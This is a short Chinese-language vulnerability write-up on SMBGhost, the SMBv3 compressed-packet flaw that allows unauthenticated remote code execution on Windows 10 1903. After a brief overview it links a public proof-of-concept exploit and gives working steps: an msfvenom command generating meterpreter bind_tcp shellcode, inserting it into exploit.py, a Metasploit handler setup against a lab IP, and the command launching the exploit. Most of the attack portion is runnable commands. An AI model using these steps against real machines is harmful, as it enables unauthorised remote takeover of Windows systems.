 ## 漏洞概述

该漏洞是由于SMBv3协议在处理恶意的压缩数据包时出错所造成的，它可让远程且未经身份验证的攻击者在目标系统上执行任意代码。

## 影响版本

Windows 10 1903版（用于基于x64的系统）

Windows 10 1903版（用于基于ARM64的系统）

## 漏洞验证

本地测试需关闭win10防火墙成可ping通状态

gitHub检测工具：https://github.com/ollypwn/SMBGhost

Exp地址：https://github.com/chompie1337/SMBGhost_RCE_PoC

使用msf生成shellcode

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp lport=3333 -f py -o shellcode.txt
```

执行该命令后会在桌面生成一个shellcode.txt

将生成的shellcode替换exp中的exploit.py中的USER_PAYLOAD保存即可

使用kaili中的msf开启监听

```bash
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp  #设置反弹模式

msf5 exploit(multi/handler) > set rhost 192.168.31.137  #设置目标靶机IP地址

msf5 exploit(multi/handler) > set lport 3333  #设置监听端口

msf5 exploit(multi/handler) > exploit 
```

在kail中进入exp文件夹，执行exp文件

```bash
python3 exploit.py ip 192.168.31.137
```

